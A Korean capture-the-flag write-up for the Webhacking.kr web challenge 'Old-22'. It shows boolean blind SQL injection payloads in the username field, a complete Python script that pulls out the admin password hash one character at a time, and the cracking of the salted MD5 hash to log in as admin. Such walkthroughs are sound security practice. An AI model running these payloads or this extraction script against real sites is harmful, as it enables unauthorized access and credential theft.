




# _Old-22_

**Category:** _Web_

**Source:** _Webhacking.kr_

**Points:** _500_

**Author:** _galaxy(김경환)_

**Description:** 

> 

## Point
- _blind sql injection_

## Write-up

문제화면에는 간단한 login창이 보입니다.

아무거나 입력하니 Login fail!이라고 나옵니다.

sql injection인가 싶어서 이것저것 넣어보았지만 되지 않았습니다.

join 버튼이 있어서 join을 했습니다.



asd/asd로 join을 하고 login을 하니 login에 성공하고 password hash값이 나왔습니다.



blind sql injection인가 싶어서 password에 asd' and 1 -- 과 asd' and 0 -- 으로 테스트 해보았습니다.

둘다 Login Fail!이 나타났습니다.

이번엔 username에서 테스트해 보았습니다.

asd' and 0 -- 에서는 Login Fail!이 나타나지만 asd' and 1 -- 에서는 Wrong password가 나타납니다.

참과 거짓일때 반응이 다르게 나타나니 blind sql injection이 가능해졌습니다.

username은 admin이기 때문에 password만 알아내면 됩니다.

password를 알아내는 python 스크립트를 작성하고 실행했습니다.

```python
import requests
import string

URL='https://webhacking.kr/challenge/bonus-2/index.php'
cookies={'PHPSESSID':'2jht6e81p3mu59h6vmclgebdtc'}

pw_length=0

for i in range(50):
	data={'pw':'a','uuid':"admin' and length(pw)="+str(i)+" -- "}
	response=requests.post(URL,cookies=cookies,data=data)
	if 'Wrong password!'in response.text:
		pw_length=i
		break
print('pw length is '+str(pw_length))

pw=''
for i in range(1,pw_length+1):
	for ch in string.digits+string.letters:
		data={'pw':'a','uuid':"admin' and mid(pw,"+str(i)+",1)='"+ch+"' -- "}
		response=requests.post(URL,cookies=cookies,data=data)
		if 'Wrong password!'in response.text:
			pw+=ch
			break

print('pw is '+pw)
```


password에 대한 hash값을 찾았습니다.

찾은 hash값을 md5로 decrypt 했습니다.

'wowapple'가 나와서 입력하니 Login Fail!이 나왔습니다. 

기본적으로 password + salt값이 있는듯하여 a/a로 계정을 만들어서 나온 hash값을 decrypt하니 'aapple'가 나왔습니다.

admin/wow로 로그인 하니 pwned되었습니다.